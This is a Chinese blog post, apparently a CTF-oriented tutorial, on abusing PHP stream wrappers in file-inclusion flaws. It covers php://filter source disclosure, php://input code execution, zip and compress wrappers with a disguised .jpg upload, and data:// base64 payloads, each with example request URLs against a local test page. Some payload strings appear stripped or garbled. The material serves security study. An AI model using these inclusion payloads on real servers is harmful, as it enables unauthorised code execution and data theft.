php伪协议实现命令执行的七种姿势

0.1742017.09.26 15:02:27字数 1482阅读 1168

首先归纳下常见的文件包含函数：include、require、include_once、require_once、highlight_file 、show_source 、readfile 、file_get_contents 、fopen 、file，计划对文件包含漏洞与php封装协议的利用方法进行总结，本篇先总结下一些封装协议，涉及的相关协议：file://、php://filter、php://input、zip://、compress.bzip2://、compress.zlib://、data://，后续再对每个文件包含函数进一步进行探讨。

环境概要：

PHP.ini：

allow_url_fopen ：on  默认开启  该选项为on便是激活了 URL 形式的 fopen 封装协议使得可以访问 URL 对象文件等。

allow_url_include：off  默认关闭，该选项为on便是允许 包含URL 对象文件等。

为了能够尽可能的列举所有情况本次测试使用的PHP版本为>=5.2 具体为5.2，5.3，5.5，7.0；PHP版本<=5.2 可以使用%00进行截断。

0x01 是否截断问题：

本篇由以下这个简单的例子进行探讨，首先看如下两种文件包含情况。

情况一：不需要截断：

http://127.0.0.1/test.php?file=file:///c:/users/Thinking/desktop/flag.txt

情况二：需要截断：

在php版本<=5.2中进行测试是可以使用%00截断的。

http://127.0.0.1/test.php?file=file:///c:/users/Thinking/desktop/flag.txt%00

0x02 allow_url_fopen与allow_url_include是否开启的问题：

【file://协议】

PHP.ini：

file:// 协议在双off的情况下也可以正常使用；

allow_url_fopen ：off/on

allow_url_include：off/on

file:// 用于访问本地文件系统，在CTF中通常用来读取本地文件的且不受allow_url_fopen与allow_url_include的影响

参考自：http://php.net/manual/zh/wrappers.file.php

使用方法：

file:// [文件的绝对路径和文件名]

http://127.0.0.1/cmd.php?file=file://D:/soft/phpStudy/WWW/phpcode.txt

【php://协议】

条件：

不需要开启allow_url_fopen，仅php://input、 php://stdin、 php://memory 和 php://temp 需要开启allow_url_include。

php:// 访问各个输入/输出流（I/O streams），在CTF中经常使用的是php://filter和php://input，php://filter用于读取源码，php://input用于执行php代码。

参考自：http://php.net/manual/zh/wrappers.php.php#refsect2-wrappers.php-unknown-unknown-unknown-descriptioq

php://filter 读取源代码并进行base64编码输出，不然会直接当做php代码执行就看不到源代码内容了。

PHP.ini：

php://filter在双off的情况下也可以正常使用；

allow_url_fopen ：off/on

allow_url_include：off/on



测试现象：

http://127.0.0.1/cmd.php?file=php://filter/read=convert.base64-encode/resource=./cmd.php



php://input  可以访问请求的原始数据的只读流, 将post请求中的数据作为PHP代码执行。

PHP.ini：

allow_url_fopen ：off/on

allow_url_include：on



测试现象：

http://127.0.0.1/cmd.php?file=php://input

[POST DATA]

也可以POST如下内容生成一句话：');?> ')



【zip://, bzip2://, zlib://协议】

PHP.ini：

zip://, bzip2://, zlib://协议在双off的情况下也可以正常使用；

allow_url_fopen ：off/on

allow_url_include：off/on

zip://, bzip2://, zlib:// 均属于压缩流，可以访问压缩文件中的子文件，更重要的是不需要指定后缀名。

参考自：http://php.net/manual/zh/wrappers.compression.php



【zip://协议】

使用方法：

zip://archive.zip#dir/file.txt

zip:// [压缩文件绝对路径]#[压缩文件内的子文件名]

测试现象：

http://127.0.0.1/cmd.php?file=zip://D:/soft/phpStudy/WWW/file.jpg%23phpcode.txt

先将要执行的PHP代码写好文件名为phpcode.txt，将phpcode.txt进行zip压缩,压缩文件名为file.zip,如果可以上传zip文件便直接上传，若不能便将file.zip重命名为file.jpg后在上传，其他几种压缩格式也可以这样操作。

由于#在get请求中会将后面的参数忽略所以使用get请求时候应进行url编码为%23，且此处经过测试相对路径是不可行，所以只能用绝对路径。



【bzip2://协议】

使用方法：

compress.bzip2://file.bz2

测试现象：

http://127.0.0.1/cmd.php?file=compress.bzip2://D:/soft/phpStudy/WWW/file.jpg

or

http://127.0.0.1/cmd.php?file=compress.bzip2://./file.jpg



【zlib://协议】

使用方法：

compress.zlib://file.gz

测试现象：

http://127.0.0.1/cmd.php?file=compress.zlib://D:/soft/phpStudy/WWW/file.jpg

or

http://127.0.0.1/cmd.php?file=compress.zlib://./file.jpg



【data://协议】

经过测试官方文档上存在一处问题，经过测试PHP版本5.2，5.3，5.5，7.0；data:// 协议是是受限于allow_url_fopen的，官方文档上给出的是NO，所以要使用data://协议需要满足双on条件

PHP.ini：

data://协议必须双在on才能正常使用；

allow_url_fopen ：on

allow_url_include：on

参考自：http://php.net/manual/zh/wrappers.data.php, 官方文档上allow_url_fopen应为yes。



测试现象：

http://127.0.0.1/cmd.php?file=data://text/plain,

or

http://127.0.0.1/cmd.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=

也可以：

http://127.0.0.1/cmd.php?file=data:text/plain,

or

http://127.0.0.1/cmd.php?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=



0x03  常规小结：

PHP封装协议在CTF蛮常见的，是经常会遇到的出题点，如下便是对本篇涉及的封装协议进行的总结，期待小伙伴的交流和补充。



